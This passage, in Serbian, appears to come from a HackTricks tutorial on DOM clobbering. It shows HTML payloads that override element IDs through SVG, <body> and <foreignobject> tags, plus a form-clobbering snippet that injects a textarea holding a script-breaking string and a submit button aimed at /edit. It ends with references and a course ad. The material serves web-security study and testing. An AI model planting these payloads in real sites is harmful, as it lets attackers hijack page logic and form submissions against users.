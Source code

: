 Istraživanja o SVG-u otkrila su da se oznaka `<body>` takođe može efikasno koristiti:

```html
<div style="display:none" id="cdnDomain">example.com</div>
<svg><body id="cdnDomain">clobbered</body></svg>
<script>
alert(document.getElementById('cdnDomain').innerText); // Clobbered
</script>
```

Za HTML oznaku da funkcioniše unutar SVG u pregledačima poput Chrome-a i Firefox-a, potrebna je oznaka `<foreignobject>`:

```html
<div style="display:none" id="cdnDomain">example.com</div>
<svg>
<foreignobject>
<html id="cdnDomain">clobbered</html>
</foreignobject>
</svg>
<script>
alert(document.getElementById('cdnDomain').innerText); // Clobbered
</script>
```

## Clobbering formi

Moguće je dodati **nove unose unutar formulara** samo navođenjem atributa `form` unutar određenih oznaka. Možete koristiti ovo da biste dodali nove vrednosti unutar formulara i čak dodali novi **dugme** za **slanje** (clickjacking ili zloupotreba nekog `.click()` JS koda):

{% code overflow="wrap" %}
```html
<!--Add a new attribute and a new button to send-->
<textarea form=id-other-form name=info>
";alert(1);//
</textarea>
<button form=id-other-form type="submit" formaction="/edit" formmethod="post">
Click to send!
</button>
```
{% endcode %}

* Za više atributa forme u [**button proverite ovo**](https://www.w3schools.com/tags/tag\_button.asp)**.**

## Reference

* [https://portswigger.net/research/hijacking-service-workers-via-dom-clobbering](https://portswigger.net/research/hijacking-service-workers-via-dom-clobbering)
* [https://portswigger.net/web-security/dom-based/dom-clobbering](https://portswigger.net/web-security/dom-based/dom-clobbering)
* Heyes, Gareth. JavaScript za hakere: Naučite da razmišljate kao haker.

<details><summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary></details>
